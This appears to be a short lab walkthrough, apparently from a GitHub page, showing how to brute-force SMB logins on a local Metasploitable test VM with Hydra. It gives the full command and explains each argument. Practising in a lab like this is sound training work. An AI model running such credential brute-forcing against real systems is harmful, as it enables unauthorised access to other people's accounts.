 --- Brute Force ---
- First we create an user file and a password file with nano user.txt and pass.txt
# Capture [hydra.png]
- Using Hydra against the SMB with command: hydra -L users.txt -P pass.txt 192.168.56.103 smb
- -L users.txt users list
- -P pass.txt passwords list
- 192.168.56.103 Metasploit IP
- smb = main protocol
